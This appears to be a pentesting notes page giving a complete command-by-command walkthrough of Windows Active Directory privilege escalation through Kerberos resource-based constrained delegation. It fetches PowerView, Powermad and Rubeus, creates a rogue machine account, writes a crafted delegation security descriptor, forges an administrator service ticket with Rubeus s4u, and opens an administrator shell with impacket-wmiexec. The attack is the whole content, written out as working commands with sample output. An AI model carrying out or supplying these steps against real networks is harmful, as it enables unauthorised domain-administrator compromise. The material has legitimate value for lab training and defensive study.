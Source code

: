 ```yaml
---
title: Windows PrivEsc with Kerberos
description:
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
date: 2023-10-22
draft: false
---
```


## Privilege Escalation

First off, download two PS scripts in local machine..

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```

Then upload them to the target machine.

```bash
# Evil-WinRM
upload PowerView.ps1
Import-Module .\PowerView.ps1
upload Powermad.ps1
Import-Module .\Powermad.ps1
```

### 1. Check User's Permission and Windows Versions

Check if users are allowed to create a new computer object on the domain.

```bash
Get-DomainObject -Identity "dc=example,dc=com" -Domain example.com

# -------------------------
# Result
ms-ds-machineaccountquota: 10
```

And check if the machine is at least Windows Server 2012.

```bash
Get-DomainController

# -------------------------
# Result
OSVersion: Windows Server 2022 Standard
```

Additionally, check if the target computer does not have the attributes **“msds-allowedtoactionbehalfofotheridentity”** set.

```bash
hostname
Get-NetComputer <hostname> | Select-Object -Property name, msds-allowedtoactionbehalfofotheridentity

# ------------------
# Result
name msds-allowedtoactionbehalfofotheridentity
---- ----------------------------------------
<HOSTNAME>   {1, 0, 4, 128...}
```

### 2. Create a New Computer

Now you can create a new computer object.

```bash
New-MachineAccount -MachineAccount TEST01 -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)
Get-DomainComputer test01

# ----------------------
# Result (copy the id)
objectsid: S-1-5-21-1677581083-3380853377-188903654-5103
```

Create a new raw security descriptor.

```bash
# Paste the objectsid which was copied in previous section.
$objectsid = "S-1-5-21-1677581083-3380853377-188903654-5103"

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$objectsid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $(hostname) | Set-DomainObject -Set @{'msds-allowedtoactionbehalfofotheridentity'=$SDBytes} -Verbose
```

### 3. Impersonate to Get a Ticket

Download Rubeus.exe in local machine.

```bash
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
```

Then upload it to the target machine and generate a RC4 hash.

```bash
# Evil-WinRM
upload Rubeus.exe
.\Rubeus.exe hash /password:12345 /user:test01 /domain:example.com

# -------------------------
# Result (copy the rc4 hash)
rc4_hmac: 32ED87BDB5FDC5E9CBA88547376818D4

```

We can request a Kerberos ticket for a new machine account while impersonating an administrator.

```bash
.\Rubeus.exe s4u /user:test01$ /rc4:<rc4-hash> /impersonateuser:administrator /msdsspn:cifs/<hostname>.example.com /ptt

# --------------
# Result (copy the output long hash at the last)
```

Then generate a ticket (**`.kirbi`**).

```bash
[IO.File]::WriteAllBytes("C:\Users\<username>\Documents\ticket.kirbi", [Convert]::FromBase64String("<new-output-hash>"))
download ticket.kirbi
```

### 4. Make the Ticket Usable and Use It

Download “ticket_converter.py”.

```bash
wget https://raw.githubusercontent.com/zer1t0/ticket_converter/master/ticket_converter.py
```

Destroy any tickets in local machine, and convert the ticket to Linux usable, then set the new ticket’s path.

```bash
kdestroy
python3 ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

We can use the ticket to get a shell.

```bash
impacket-wmiexec example.com/administrator@<hostname>.example.com -no-pass -k
```

